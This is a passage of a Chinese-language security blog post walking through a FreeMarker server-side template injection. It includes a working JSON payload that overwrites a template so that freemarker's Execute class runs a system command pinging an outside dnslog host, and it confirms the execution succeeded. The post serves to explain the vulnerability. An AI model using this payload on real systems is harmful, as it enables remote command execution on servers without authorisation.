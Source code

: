 上述代码主要编译给定的模板字符串和数据，生成HTML进行输出

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911153736602-1300404619.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911153736602-1300404619.png)

模板注入的前提是在无过滤的情况下，使用模板来解析我们输入的字符，可以通过页面上的变化，来判断我们输入的内容是否被解析，如上图我们输入的内容被成功解析到页面上，并且没有过滤。

首先需要控制被攻击模板 /template 的内容，也就是要将本来无危害的模板文件实时更改为可攻击的模板内容。使用的payload

{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911170426315-957198191.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911170426315-957198191.png)

关键代码在上图的红框中，接收用户传入的参数，使用keySet()获取key值，遍历相应的模块名字，使用StringTemplateLoader来加载模板内容，并使用putTemplate将key对应的value（也就是payload）写入templateKey中。这样就可以覆盖 hello.ftl 文件的内容，具体如下：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911171827668-2059326925.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911171827668-2059326925.png)

重新更改了加载的模板内容后，然后直接访问受影响的模板文件路径，此时恶意的模板文件内容就会被加载成功了，并执行了系统命令

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173804255-14835990.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173804255-14835990.png)

dnslog平台也受到了请求

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173946071-111351701.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173946071-111351701.png)